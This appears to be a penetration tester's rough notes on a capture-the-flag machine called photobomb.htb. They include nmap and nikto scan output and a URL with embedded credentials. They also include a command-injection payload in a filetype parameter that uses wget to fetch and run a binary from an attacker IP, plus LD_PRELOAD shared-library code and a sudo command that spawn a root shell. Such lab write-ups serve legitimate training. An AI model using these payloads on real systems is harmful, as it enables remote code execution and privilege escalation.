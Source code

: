 nmap -A -sV 10.10.11.182 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-16 20:39 EDT
Nmap scan report for 10.10.11.182
Host is up (0.085s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
32/tcp    filtered unknown
49/tcp    filtered tacacs
80/tcp    open     http           nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
427/tcp   filtered svrloc
1027/tcp  filtered IIS
1078/tcp  filtered avocent-proxy
1113/tcp  filtered ltp-deepspace
1122/tcp  filtered availant-mgr
2042/tcp  filtered isis
2701/tcp  filtered sms-rcinfo
2910/tcp  filtered tdaccess
4279/tcp  filtered vrml-multi-use
5102/tcp  filtered admeng
5510/tcp  filtered secureidprop
5815/tcp  filtered unknown
6007/tcp  filtered X11:7
8099/tcp  filtered unknown
9999/tcp  filtered abyss
12265/tcp filtered unknown
18101/tcp filtered unknown
49159/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1861.28 seconds

# modifier /etc/host dns

http://pH0t0:b0Mb!@photobomb.htb/printer

# nikto result
nikto -host http://photobomb.htb/printer -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.182
+ Target Hostname:    photobomb.htb
+ Target Port:        80
+ Start Time:         2022-10-17 20:55:25 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'x-cascade' found, with contents: pass
+ 26543 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2022-10-17 21:36:05 (GMT-4) (2440 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


      *********************************************************************
      Portions of the server's headers (nginx/1.18.0) are not in
      the Nikto 2.1.6 database or are newer than the known string. Would you like
      to submit this information (*no server specific data*) to CIRT.net
      for a Nikto update (or you may email to sullo@cirt.net) (y/n)? y

+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
- Sent updated info to cirt.net -- Thank you!

# nikto result page interessante
nikto  -host http://photobomb.htb/ -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.182
+ Target Hostname:    photobomb.htb
+ Target Port:        80
+ Start Time:         2022-10-17 20:56:35 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ Uncommon header 'x-cascade' found, with contents: pass
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 26392 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2022-10-17 21:38:58 (GMT-4) (2543 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


      *********************************************************************
      Portions of the server's headers (nginx/1.18.0) are not in
      the Nikto 2.1.6 database or are newer than the known string. Would you like
      to submit this information (*no server specific data*) to CIRT.net
      for a Nikto update (or you may email to sullo@cirt.net) (y/n)? y

+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
- Sent updated info to cirt.net -- Thank you!

# faille donwload photo ";" filetype, url encode pour payload

wget%20http%3A%2F%2F10.10.14.13%2FDesktop%2Fshelf.elf
png;chmod%20777%20shelf.elf
./shelf
wget%20http%3A%2F%2F10.10.14.13%2FDesktop%2Fyoo

# tuto LD_PRELOAD
https://c0nd4.medium.com/linux-sudo-ld-preload-privilege-escalation-7e1e17d544ec

# gcc payload LD_PRELOAD shell.so 

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
# result shell.so

# root payload
sudo LD_PRELOAD=/tmp/shell.so /opt/cleanup.sh